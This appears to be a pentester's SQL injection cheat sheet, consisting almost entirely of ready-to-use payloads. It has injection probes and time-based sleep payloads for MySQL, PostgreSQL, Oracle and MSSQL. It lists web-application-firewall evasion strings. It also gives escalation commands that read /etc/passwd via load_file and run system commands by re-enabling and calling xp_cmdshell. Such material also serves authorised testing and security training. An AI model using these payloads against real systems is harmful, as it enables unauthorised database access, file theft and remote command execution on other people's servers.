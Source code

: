Automation Tool: [[SQLMap]]

***Detection***
 - [ ] Identify where would information be retrieve from data store
 - [ ] Identify data type of input data
 - [ ] Identify possible injection operators
 - [ ] Construct potential SQL statement
```python
# MySQL & MariaDB
id # column name 
''
""
'+'
"+"
' '
" "
'%20'
"%20"
'%2b'
"%2b"
` # column name injection
``
)
(
()
% # Verify that database is being called (% retrieve all)
\
\\
'\
'\'
&
'&'
"&"
/*
#
;
%3b
//
foo'+'bar
CONCAT('foo','bar')
'-sleep(3)-'
'+sleep(3)+'
"-sleep(3)-"
"+sleep(3)+"
2#
2-- -
2--
(2+1) # Integer Data
(2%2b1)
(2-1)
2+1
2%2b1
2-1
67-ACII('A')
51-ASCII(1)

# SQLite


# PostgreSQL
'||'
"||"
'foo'||'bar'
foo'||'bar
'||pg_sleep(3)||'
"||pg_sleep(3)||"

# Oracle
'||'
"||"
'foo'||'bar'
dbms_pipe.receive_message(('a'), 3)

# MSSQL
'+'
"+"
WAITFOR DELAY '0:00:03'

```

***WAF Bypasses***
- [ ] WAFW00F reveals WAF
```sql
SeLeCt
SELECT
sElEcT
Select
select
%00SELECT
SELSELECTECT
%53%45%4c%45%43%54
%2553%2545%254c%2545%2543%2554
SELECT/**/username,password/**/FROM/**/users
SELECT/*foo*/username,password/*foo*/FROM/*foo*/users
SEL/*foo*/ECT username,password FR/*foo*/OM users # MySQL
```

***Escalating the Attack***
MySQL Read Files (require FILE_PRIV)
```sql
select load_file('/etc/passwd')
```
MSSQL RCE
```sql
master..xp_cmdshell 'ipconfig > foo.txt'
exec xp_cmdshell 'dir'
```
- Re-enabling xp_cmdshell (sp_configure)
```sql
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE WITH OVERRIDE
EXECUTE sp_configure 'xp_cmdshell', '1'
RECONFIGURE WITH OVERRIDE
```